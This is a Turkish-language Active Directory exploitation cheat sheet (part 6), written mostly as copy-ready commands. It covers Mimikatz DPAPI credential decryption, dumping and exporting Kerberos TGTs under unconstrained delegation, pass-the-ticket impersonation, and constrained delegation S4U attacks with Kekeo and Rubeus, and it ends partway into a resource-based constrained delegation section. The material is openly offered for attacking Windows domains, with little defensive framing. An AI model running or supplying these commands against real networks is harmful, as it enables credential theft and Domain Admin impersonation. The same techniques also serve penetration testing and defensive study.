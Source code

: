 # Active Directory Exploitation Cheat Sheet - Bölüm 6

## DPAPI ile Şifreli Kimlik Bilgilerini Çözme

### Mimikatz Kullanımı:
- **Kimlik Bilgisi Nesnesini Çözümleme:**
  ```mimikatz
  dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
  ```

- **`guidMasterKey` Parametresini İnceleme:**
  Bu parametre hangi masterkey'in kimlik bilgisini şifrelemek için kullanıldığını belirtir.

- **Master Key'i Listeleme:**
  ```mimikatz
  dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>"
  ```

- **Master Key'i RPC ile Domain Controller'a Geçirme:**
  ```mimikatz
  dpapi::masterkey /in:"%appdata%\Microsoft\Protect\<usersid>\<MasterKeyGUID>" /rpc
  ```

- **Master Key'in Lokal Cache'e Alınması:**
  ```mimikatz
  dpapi::cache
  ```

- **Kimlik Bilgisini Çözme:**
  ```mimikatz
  dpapi::cred /in:"%appdata%\Microsoft\Credentials\<CredHash>"
  ```

### Detaylı Makale:
- DPAPI All The Things

## Unconstrained Delegation

### Açıklama:
Eğer bir makinede Unconstrained Delegation etkin ve bu makineye yönetici erişiminiz varsa, yüksek değerli hedeflerin (ör. Domain Admin) bu makineye bağlanmasını bekleyebilir, TGT'lerini çalıp impersonate edebilirsiniz.

#### PowerView Kullanımı:
- **Unconstrained Delegation Etkin Olan Bilgisayarları Keşfet:**
  ```powershell
  Get-NetComputer -UnConstrained
  ```

- **TGT'leri Listeleme:**
  ```mimikatz
  Invoke-Mimikatz -Command '"sekurlsa::tickets"'
  ```

- **Gelen Oturumları İzleme:**
  ```powershell
  Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay <WaitInterval> -Verbose
  ```

- **TGT'leri Disk'e Dump Etme:**
  ```mimikatz
  Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
  ```

- **Kullanıcıyı PTT ile İmpersonate Etme:**
  ```mimikatz
  Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
  ```

### Alternatif Araç:
- Rubeus

## Constrained Delegation

### PowerView ve Kekeo Kullanımı:
- **Constrained Delegation Etkin Kullanıcı ve Bilgisayarları Listele:**
  ```powershell
  Get-DomainUser -TrustedToAuth
  Get-DomainComputer -TrustedToAuth
  ```

- **Kullanıcı İçin TGT Talep Etme:**
  ```bash
  tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>
  ```

- **TGS Talep Etme:**
  ```bash
  tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>
  ```

- **Mimikatz ile TGS PTT Yapma:**
  ```mimikatz
  Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
  ```

### Rubeus Kullanımı:
- **S4U Saldırısı Gerçekleştirme:**
  ```bash
  Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
  ```

### Alternatif Servis İstismarı:
- Eğer belirli bir SPN için delegasyon haklarınız varsa, Kerberos'un "alternative service" özelliğini kullanarak başka hizmetler için de geçerli TGS biletleri talep edebilirsiniz.

## Resource-Based Constrained Delegation

### Açıklama:
Eğer bir domain makine hesabı üzerinde GenericALL/GenericWrite yetkileriniz varsa, bu makine hesabını suistimal ederek herhangi bir domain kullanıcısı (ör. Domain Admin) olarak kendinizi taklit edebilirsiniz.

#### Kullanılacak Araçlar:
- **PowerView**
- **Powermad**
- **Rubeus**

### İlk Adım:
Yetkilere sahip kullanıcı/makine hesabının güvenlik bağlamına girin. Kullanıcı hesabı için Pass the Hash, RDP veya PSCredentials kullanılabilir.
